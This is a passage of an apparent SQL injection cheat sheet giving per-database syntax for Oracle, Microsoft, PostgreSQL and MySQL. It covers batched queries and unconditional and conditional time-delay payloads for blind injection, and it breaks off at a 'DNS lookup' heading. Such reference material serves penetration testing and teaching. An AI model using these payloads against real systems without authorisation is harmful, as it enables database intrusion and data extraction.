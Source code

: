 ## Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

|   |   |
|---|---|
|Oracle|`Does not support batched queries.`|
|Microsoft|`QUERY-1-HERE; QUERY-2-HERE   QUERY-1-HERE QUERY-2-HERE`|
|PostgreSQL|`QUERY-1-HERE; QUERY-2-HERE`|
|MySQL|`QUERY-1-HERE; QUERY-2-HERE`|

#### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

|            |                                       |
| ---------- | ------------------------------------- |
| Oracle     | `dbms_pipe.receive_message(('a'),10)` |
| Microsoft  | `WAITFOR DELAY '0:0:10'`              |
| PostgreSQL | `SELECT pg_sleep(10)`                 |
| MySQL      | `SELECT SLEEP(10)`                    |

## Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.

|   |   |
|---|---|
|Oracle|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`|
|Microsoft|`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`|
|PostgreSQL|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`|
|MySQL|`SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`|

## DNS lookup
